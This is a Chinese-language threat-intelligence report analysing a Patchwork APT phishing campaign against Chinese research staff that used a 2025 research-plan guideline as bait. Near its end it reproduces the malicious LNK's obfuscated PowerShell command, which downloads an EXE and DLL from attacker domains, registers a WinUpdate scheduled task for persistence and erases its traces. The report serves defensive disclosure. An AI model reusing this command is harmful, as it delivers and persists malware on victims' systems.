 # 以研发计划为诱饵，Patchwork组织近期针对国内的攻击活动分析  

原创猎影实验室网络安全研究宅基地2024年12月04日11:01浙江  

![](https://cdn-mineru.openxlab.org.cn/extract/8c489b22-f7cb-485e-8206-fe86d2f9777c/cd6c1153f3c6241bc003bf33b3e2d90e2e7f1296c1aa1ebb347029808283e454.jpg)  

![](https://cdn-mineru.openxlab.org.cn/extract/8c489b22-f7cb-485e-8206-fe86d2f9777c/357de6633590f4630d5ea558ce9823150c445fc01b5e309d1ddac8bc124d4756.jpg)  

## 概述  

Patchwork组织又名Hangover、Dropping Elephant，最早披露于2013年。最早攻击活动可以追溯到2009年，主要针对中国、巴基斯坦等亚洲地区和国家进行网络间谍活动。在针对中国地区的攻击中，其主要针对政府机构、科研教育领域进行攻击。具有Windows、Android、macOs多系统攻击的能力。  

近日，安恒猎影实验室在日常威胁情报狩猎中捕获了PatchworkAPT组织的攻击样本，相关样本以"国家重点研发计划'工程科学与综合交叉'重点专项2025项目指南建议表"为话题，针对国内科研相关的工作人员进行钓鱼攻击。  

相关攻击活动以LNK文件作为初始攻击负载，引诱目标运行后，将下载PDF文件及EXE、DLL文件到本地，自动打开PDF文件以降低目标防备心理，并设置计划任务运行白文件。白文件运行后加载恶意DLL文件，在内存中多次解密加载执行Patchwork组织特马BadNews。此外我们发现该组织域名仿冒多个正常网站。  

### 样本诱饵  

本次捕获样本释放到本地的诱饵文件如下，内容为"国家重点研发计划'工程科学与综合交叉'重点专项2025项目指南建议表?  

![](https://cdn-mineru.openxlab.org.cn/extract/8c489b22-f7cb-485e-8206-fe86d2f9777c/46fd85804a407ed87e19426f0c73066e74fe50aff849f3659e1b88514f4e5b88.jpg)  
file://E:/GoogleDownload/以研发计划为诱饵，Patchwork组织近期针对国内的攻击活动分析(2024_12_614|59|59).html  

以研发计划为诱饵，Patchwork组织近期针对国内的攻击活动分析  


<html><body><table><tr><td>所属领域</td><td>按照8个领域进行归属（空间科字、极端制道、信息、可 再生能源、海洋、医工、交通工程、材料）</td><td></td></tr><tr><td rowspan="2">类别 （可多选）</td><td>口1.工程科学问题 源自重大工程实施，需要解决的重要科学和技术问题 （100字左右）</td><td rowspan="2"></td></tr><tr><td>口2.综合交叉问题 需要多学科交叉、多领域融合的科学和技术问题（100字 左右）</td></tr><tr><td>必要性和意 义</td><td>聚焦国家重大工程、重大任务、重大应用的战略需求，说 明其必要性、紧迫性，以及对产业和技术的作用及影响， 以及应用场景等。（500字以内）</td><td></td></tr><tr><td>研究 内容</td><td>拟突破的关键核心技术、前沿科学技术领域等。（1000 字以内）</td><td></td></tr><tr><td>预期成果和</td><td>描述预期任务的标志性成果及关键核心考核指标。（100</td><td></td></tr></table></body></html>  

关联到的其他样本释放诱饵文件主题如下为巴基斯坦国际航空有限公司伊斯兰堡售票处内部审计情况  

![](https://cdn-mineru.openxlab.org.cn/extract/8c489b22-f7cb-485e-8206-fe86d2f9777c/80214ce86a43a5af0354f0206374a07055d6a750c6a9f2a57bb5d8d4dfa576e3.jpg)  

另一诱饵文件为：巴基斯坦第一大数据和通信网络提供商Zong的登录ID及密码  

文件运行后使用Invoke-WebRequest命令分别从指定的URL下载PDF及EXE/DLL文件，并将其保存到指定的本地路径（具体URL见附录IOC）;运行PDF文件并复制PE文件到指定目录，复制PDF文件到当前目录;3 创建名为WinUpdate的计划任务以运行后续负载;删除运行过程中产生的中间文件。  

87 commandlinearguments:powershell \$ProgressPreference $=$ 'SilentlyContinue';\$b='C:\Users';iw''r https://atus.toproid.xyz/ klhju_rdf_gd/ktdfersfr -OutFile \$b\Public\Project_Guideline.pdf;s''a''p''s \$b\Public\Project_Guideline.pdf;iw''r https://zon.toproid.xyz/pfetc_ksr_lo/jyuecvdgt -OutFile"sb\Public\hip";r''e''n -Path"sb\Public\hip"-NewName "\$b \Public\WerFaultSecure.exe";iw''r https://zon.toproid.xyz/aewbf_jsd_td/ktrgdysvt -OutFile "sb\Public\hello";r''e''nPath "\$b\Public\hello"-NewName "\$b\Public\wer.dll";c''p''i "\$b\Public\Project_Guideline.pdf"-destination .sch''ta''s''ks /c''r''e''a''te /S''c minute/T''n WinUpdate/t''r "\$b\Public\WerFaultSecure"/f;e''r''a''s''e \*d?.?n?   
88 iconlocation:ProgramFiles(x86)&\Microsoft\Edge\Application\msedge.exe  
